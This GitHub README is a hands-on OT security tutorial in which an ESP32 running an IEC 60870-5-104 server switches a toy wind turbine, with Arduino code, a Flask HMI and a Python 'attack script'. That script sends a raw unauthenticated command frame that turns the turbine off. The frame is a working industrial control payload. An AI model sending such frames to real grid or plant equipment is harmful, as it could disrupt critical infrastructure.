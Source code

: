 # Hacking demo of a wind turbine using he IEC 60870-5-104 protocol
Working on OT security often involves a lot of talk about frameworks, network segmentation, monitoring and other controls. However, to better connect to the actual systems, its useful to get some hands-on experience with the actual protocols. For this demo, I obtained a Bricks windturbine (Lego was to expensive :)) and connected it to an ESP32. The ESP32 simulates a very simple operation, in this case an operator being able to remotely switch on and off the wind turbine. 

## Shoppinglist
The following items are required to build the demo

| ID | Item | URL |
|-----:|-----------|-----------|
|     1| ESP32    |https://www.amazon.nl/AZDelivery-ESP32-Development-compatibel-Inclusief/dp/B074RGW2VQ |
|     2| Windturbine bricks    | https://nl.aliexpress.com/item/1005006791312791.html |
|     3| Relais    | https://www.amazon.nl/dp/B07CNR7K9B?th=1 |
|     4| Chandler    | https://www.amazon.nl/UNITEC-Kroonluchter-12-polig-inzetbaar-transparant/dp/B007CWCQ74|
|     5| 9v Battery connector    | https://www.amazon.nl/dp/B08ZD7ZB8T |
|     6| 9v Battery     | https://www.amazon.nl/Duracell-Plus-MN1604-Alkaline-batterijen/dp/B00011PJDG |

## Wiring
When looking at the bricks cable, you find that the 4 metal connectors indicate: ground, a 9v line and two lines called c1 and c2 (used to control the direction). I figured that the easiest way for the demo is to connect 9v and GND directly to line c1 and c2.

As such, I cut the bricks line and connected a chandler (kroonluchter) for each of use (and to extend the wire a bit). During this process, I learned that the multimeter indicates the polarity while doing a measurement by showing the minus sign in front of the number (in case its reversed).

![Picture of polarity](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/polarity.png?raw=true)

After this worked, I figured it would be easier to use a 9v battery and came op with the following setup:
![Picture of setup](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/setup.png?raw=true)

Note that NO indicates Normal Open and NC indicates Normal Closed. By default, I want the wind turbine to work, so I picked NO.

## Software (Arduino)
After the wiring was complete, I started working on the software and found that Crisce implemented a PoC for the IEC 60870-5-104 protocol for the ESP32: https://github.com/Crisce/IEC60870-5-104. 
First, I downloaded the library as a .zip and added the library to the Arduino IDE:

![Picture of libs](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/libs.png?raw=true)

Afterwards, I copied the code from: https://github.com/Crisce/IEC60870-5-104/tree/master/examples/Slave_Server_Demo and updated it, for the purpose of this demo.


```arduino
/*ESEMPIO IEC60870-5-104 SLAVE*/

#include <WiFi.h>
#include <IEC60870-5-104.h>

#define RELAY_PIN 25

//create the SERVER instance IEC60870-5-104
WiFiServer srv(2404); 
IEC104_SLAVE slave(&srv);

unsigned long lastSend=0;

void setup()
{
  Serial.begin(115200);
  WiFi.mode(WIFI_STA); 
  WiFi.begin("yourWiFiNetwork","changeme"); 
  pinMode(RELAY_PIN, OUTPUT);

  Serial.print("Trying to connect to WiFi");
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
    Serial.print(".");
  }
  Serial.println(); // Move to the next line once connected
  Serial.print("Program initialized and connected to WiFi. IP address: ");
  Serial.println(WiFi.localIP());
  digitalWrite(RELAY_PIN, HIGH);
  Serial.print("Windturbine started");
}

void loop()
{
  //------------------------------------------------------------"Reception of an SP or DP command.------------------------------------------------------------//
  // Note: SP = Single Point and DP = Double Point
  int messages = slave.available();

  for(int i=0; i<messages; i++)
  {
    // create support variables to read the buffer
    // CA = Common Address
    // IOA = Information Object Address
    byte type = 0; int ca = 0; long ioa = 0; long value = 0;

    //Reading the bufferr
    slave.read(&type,&ca,&ioa,&value);
    //Use the received data
    if (type == C_SC_NA_1) 
    {
      Serial.println("You have received a Single Point Command from C.A.:" + String(ca) + "-IOA:" + String(ioa) + " equal to " + String(value));
      if(value == 2)
      {
        digitalWrite(RELAY_PIN, HIGH);
        Serial.println("Windurbine set to ON");
      }
      else
      {
        digitalWrite(RELAY_PIN, LOW);
        Serial.println("Windurbine set to OFF");
      }
    } 

  }
}
```
## HMI and attack script
Luckily the protocol is well specified by Berckoff (https://infosys.beckhoff.com/english.php?content=../content/1033/tf6500_tc3_iec60870_5_10x/984444939.html&id=). Based on this, I was able to write two python scripts. One based on Flask, simulating an HMI that can enable / disable the turbine and the second one simulating the attacker in a terminal (for dramatic demo purposes).

```python
from flask import Flask, render_template, request
import socket

app = Flask(__name__)

# Define the server's IP and port
HOST = "192.168.2.32"  # Replace with your target IP
PORT = 2404            # Replace with your target port

@app.route('/')
def home():
    return render_template("hmi.html")

@app.route('/control', methods=['POST'])
def control_windturbine():
    action = request.form.get("action")  # Get the action from the form
    raw_message = b""  # Initialize raw message

    if action == "Enable":
        raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x02'
    elif action == "Disable":
        raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x01'

    try:
        # Create and connect the socket
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
            client_socket.connect((HOST, PORT))
            client_socket.sendall(raw_message)
            print(f"Raw message sent: {raw_message}")
        message = f"Successfully sent: {action} command"
    except Exception as e:
        message = f"Failed to send command: {e}"
    
    return render_template("hmi.html", message=message)

if __name__ == '__main__':
    app.run(debug=True)
```

```python
import socket

# Define the server's IP and port
HOST = "192.168.2.32"  # Replace with your target IP
PORT = 2404            # Replace with your target port

# Create a TCP socket
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
    try:
        # Connect to the server
        client_socket.connect((HOST, PORT))
        print(f"[x] Connected to {HOST}:{PORT}")

        # Construct the raw message (IEC 60870-5-104 format or custom format), specified via: https://infosys.beckhoff.com/english.php?content=../content/1033/tf6500_tc3_iec60870_5_10x/984444939.html&id=
        # The protocol is formatted: 
        # 1x[init byte: x68] 
        # 1x[length], Application Protocol Data Unit.. e=14
        # 4x [controlfield] 
        # 1x[typeID] 2D represents:C_SC_NA_1 -> https://github.com/Crisce/IEC60870-5-104/blob/master/src/IEC60870-5-104.h
        # ----
        # 1x [number of objects], in this case 1 is enough
        # 1x [cause of transmission], in this case 0x3, which is spontaniously: https://infosys.beckhoff.com/english.php?content=../content/1033/tf6500_tc3_iec60870_5_10x/983848075.html&id=
        # 1x [originator address]
        # 2x [ADSU address], in this case 50 (or 0x32 in hex)
        

        # 3x [IOA], Information object address fields = 1
        # 1x [command value] x02 = ON
        #raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x02' enable the windturbine
        raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x01' # disable the windturbine
        print("[x] sending payload: " + str(raw_message))

        # Send the raw message
        client_socket.sendall(raw_message)
        print("[x] payload delivered succesfull!")


    except Exception as e:
        print(f"Error: {e}")
```

![Picture of demo](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/demo.png?raw=true)
